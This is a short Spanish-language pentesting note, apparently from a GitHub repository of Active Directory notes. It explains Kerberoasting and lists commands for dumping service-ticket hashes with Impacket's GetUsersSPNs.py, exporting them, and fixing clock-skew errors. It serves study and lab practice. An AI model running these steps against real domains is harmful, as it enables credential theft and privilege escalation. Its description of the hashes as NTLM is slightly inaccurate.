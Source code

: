 # Que es un ataque de Kerberoasting?
Kerberoasting es un ataque que se centra en obtener acceso a mas recursos mediante una escalada de privilegios, esto permite a los atacantes, hacerse pasar por usuarios del dominio sin privilegios con atributos `SPN` y solicitar tickets `TGS` relacionados con el servicio de la memoria en un intento de descifrar los hashes `NTLM`.

# Requisitos
Para evitar problemas debemos añadir al `/etc/hosts` lo siguiente, en el caso de este ataque con poner solo la ip y el nombre de dominio es suficiente.
```
<ip_DC> <nombre_dominio> <dominio> <nombre-DC>
```
Ejemplo:
```
192.168.214.149 wizcorp.local wizcorp DC-Company
```

# Efectuar ataque con GetUsersSPNs
Este ataque nos permite dumpear el hash de los usuarios que sean vulnerables.
```
python GetUsersSPNs.py <DOMINIO>/<usuario>:<contraseña> -dc-ip <ip_DC> -request
```
[Ver ejemplo](/Apuntes-AD/Images/3.md)

# Exportar hashes
En el caso de obtener un hash se pueden exportar directamente a un archivo con el parametro `-output <file>`

# Fix
Si el ataque te da el siguiente error: "Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too great)" debes sincronizar la hora con el server de AD con el siguinte comando:
```
rdate -n <IP_DC>
```
